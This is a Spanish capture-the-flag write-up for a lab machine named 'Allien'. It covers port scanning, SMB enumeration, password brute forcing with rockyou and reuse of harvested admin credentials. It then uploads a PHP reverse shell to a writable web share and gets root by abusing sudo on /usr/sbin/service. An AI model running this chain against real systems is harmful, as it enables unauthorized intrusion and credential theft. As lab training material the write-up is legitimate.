 
# Allien
![image](https://github.com/user-attachments/assets/7fcabe7e-bd29-4322-916d-3478628d8599)


## Reconocimiento y Enumeración.

Comprobar que la máquina está en marcha.

```bash
❯ ping -c 1 172.17.0.2
PING 172.17.0.2 (172.17.0.2) 56(84) bytes of data.
64 bytes from 172.17.0.2: icmp_seq=1 ttl=64 time=0.036 ms

--- 172.17.0.2 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.036/0.036/0.036/0.000 ms

```

Una vez nos responde ping ya podemos empezar enumerando la máquina. El ttl=64 nos puede indicar que sea una máquina **Linux**.

Lanzamos nmap para ver que puertos nos encuentra.

```bash
sudo nmap -sSCV -p- --open --min-rate 5000 -vvv -n -Pn -oG allPorts 172.17.0.2
```
```
- `-sS`: Realiza un escaneo SYN.
- `-p-`: Escanea todos los puertos.
- `--open`: Muestra solo los puertos abiertos.
- `--min-rate 5000`: Establece la velocidad mínima de envío de paquetes a 5000 por segundo.
- `-vvv`: Genera una salida muy detallada y verbosa.
- `-n`: Evita la resolución de DNS inversa.
- `-Pn`: Omite la detección de hosts.
- `-oG allPorts`: Guarda los resultados en un archivo llamado "allPorts".
- `172.17.0.2`: La dirección IP del host objetivo.
```
```bash
PORT    STATE SERVICE      REASON
22/tcp  open  ssh          syn-ack ttl 64
80/tcp  open  http         syn-ack ttl 64
139/tcp open  netbios-ssn  syn-ack ttl 64
445/tcp open  microsoft-ds syn-ack ttl 64
```
Como el puerto 80 está abierto hacemos fuzzing con gobuster para ver qué páginas encontramos.
```bash
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```
```
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 275]
/.html                (Status: 403) [Size: 275]
/index.php            (Status: 200) [Size: 3543]
/info.php             (Status: 200) [Size: 72710]
/productos.php        (Status: 200) [Size: 5229]
/.php                 (Status: 403) [Size: 275]
/.html                (Status: 403) [Size: 275]
/server-status        (Status: 403) [Size: 275]
Progress: 882240 / 882244 (100.00%)
===============================================================
Finished
===============================================================
```
Esto descubre varios directorios útiles, entre ellos /index.php y /productos.php. Al no encontrar información relevante en el contenido de estas rutas, seguimos enumerando puertos de red 139 y 445 (SMB).

Enumeración de SMB
```bash
enum4linux 172.17.0.2
```
Nos encontramos con varios suario y mediante fuerza bruta obtenemos la contraseña de uno de ellos.

![image](https://github.com/user-attachments/assets/4c5a3858-ae93-469c-8f8c-82c8d61bef6c)

## Explotación.

Lanzamos **crackmapexec** para uno de los usuario *satriani7*
```bash
crackmapexec smb 172.17.0.2 -u 'satriani7' -p /usr/share/wordlists/rockyou.txt
```
![image](https://github.com/user-attachments/assets/5ec658f3-1c70-4b61-b6a8-cffd0e325fe4)

Ahora podmeos con smbmap enumerar recursos del usuario *satriani7*
```bash
smbmap -H 172.17.0.2 -u satriani7 -p 50cent
````
![image](https://github.com/user-attachments/assets/58f7b77d-fc96-4565-97ae-780e3e606c1c)

Vemos que tenemos acceso de lectura a los directorios *myshare* y *backup24* que es donde encontraremos información útil.
```bash
smbclient //172.17.0.2/backup24 -U satriani7
```
![image](https://github.com/user-attachments/assets/75cc8b4c-4f6e-48d7-bf62-ef59f8771a73)

```bash
get credentials.txt
```
En credentials.txt encontramos credenciales de usuarios, incluyendo las del usuario administrador. Ahora probamos estos datos para descubrir más recursos compartidos:
```bash
smbmap -H 172.17.0.2 -u administrador -p Adm1nP4ss2024
```
![image](https://github.com/user-attachments/assets/cb47faa2-92e4-48d3-8bb0-55dca5511e67)

```bash
smbclient //172.17.0.2/home -U administrador
```
![image](https://github.com/user-attachments/assets/2dabfdbc-60f6-454e-9f1a-5b3ef57ea7be)

Podemos observar que es el directorio donde se encuentras las páginas php, así que como tenemos permisos de escritura subimos una revershell, en mi caso de [PentestMonkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php), sustituimos la IP y PUERTO con los nuestros y la subimos al directorio.

```bash
put shell.php
```
Una vez que la hemos subido, nos ponemos en escucha por el puerto especificado y en el navegador ponemos la dirección de la página subida.
![image](https://github.com/user-attachments/assets/ff80edc9-4773-4dc7-a90f-d6dffff7706f)

![image](https://github.com/user-attachments/assets/e81330b0-b89a-41e2-9aee-af859842266d)

Hacemos una tratamiento de la tty.
```bash
script -c bash /dev/null
Ctrl+Z
stty -echo raw;fg
reset xterm
export TERM=xterm
export SHELL=bash
```

## Escalada de Privilegios.
Ya estamos dentro de la máquina como el usuario *www-data*, vemos si tenemos algún prvilegio sudo y vemos que podemos ejecutar */usr/sbin/service* como **root**.

![image](https://github.com/user-attachments/assets/9cc801a0-15a4-4fa8-a604-2bfa393286a2)

```bash
sudo /usr/sbin/service ../../bin/bash
```
![image](https://github.com/user-attachments/assets/8fc3fe3e-46c5-401b-8e16-f37e3332cb3f)







